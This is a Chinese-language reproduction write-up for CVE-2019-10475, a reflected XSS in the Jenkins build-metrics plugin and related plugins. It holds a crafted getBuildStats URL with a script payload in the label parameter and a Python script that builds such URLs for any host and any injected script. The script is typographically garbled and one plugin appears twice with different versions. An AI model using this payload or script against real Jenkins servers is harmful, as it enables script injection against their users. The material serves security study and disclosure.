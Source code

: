 ```yaml
---
title: "（CVE-2019-10475）反射xss"
id: zhfly2988
---
```


# （CVE-2019-10475） 插件反射型xss

## 一、漏洞简介

## 二、漏洞影响

360 FireLine插件， 最高包括1.7.2
Bitbucket OAuth插件， 最高包括0.9
Build-metrics插件 1.3及以下
部署WebLogic Plugin 最高至4.1
Dynatrace应用程序监视插件， 最高包括2.1.3
Dynatrace应用程序监视插件， 最高包括2.1.4
ElasticBox Jenkins Kubernetes CI / CD插件， 最高至1.3
包含1.1.4及以下版本的 全局Post Script插件
Libvirt Slaves插件， 最高包括1.8.5
截至 2.7.0的 Mattermost Notification插件
Sonar Gerrit插件， 最高包括2.3
Zulip插件 （包括1.1.0及以下）

## 三、复现过程

### 1、手工复现

该vulnearble插件位于http://localhost:8080/plugin/build-metrics/，漏洞参数为label。

```
http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search 
```

![image](../img/3b907c11df79bf260c28fcf542e7d936.png)

### 2、利用脚本

> ```
> Usage:
> 
> $ python3 CVE-2019-10475.py --help
> 
> usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]
> 
> CVE-2019-10475 `optional arguments:
> 
> -h, --help            show this help message and exit
> 
> -p PORT, --port PORT  port
> 
> -d DOMAIN, --domain DOMAIN
> 
> domain
> 
> -i INJECT, --inject INJECT
> 
> inject` 
> ```

```
#!/usr/bin/env python

import sys

import argparse

VULN_URL = ‘’’{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search’’’

def get_parser():

parser = argparse.ArgumentParser(description=‘CVE-2019-10475’)

parser.add_argument(’-p’, ‘–port’, help=‘port’, default=80, type=int)

parser.add_argument(’-d’, ‘–domain’, help=‘domain’, default=‘localhost’, type=str)

parser.add_argument(’-i’, ‘–inject’, help=‘inject’, default=’<script>alert(“CVE-2019-10475”)</script>’, type=str)

return parser

def main():

parser = get_parser()

args = vars(parser.parse_args())

port = args[‘port’]

domain = args[‘domain’]

inject = args[‘inject’]

if port == 80:

base_url = f’http://{domain}’

elif port == 443:

base_url = f’https://{domain}’

else:

base_url = f’http://{domain}:{port}’

build_url = VULN_URL.format(base_url=base_url, inject=inject)

print(build_url)

return 0 `if **name** == ‘**main**’:

sys.exit(main())` 
```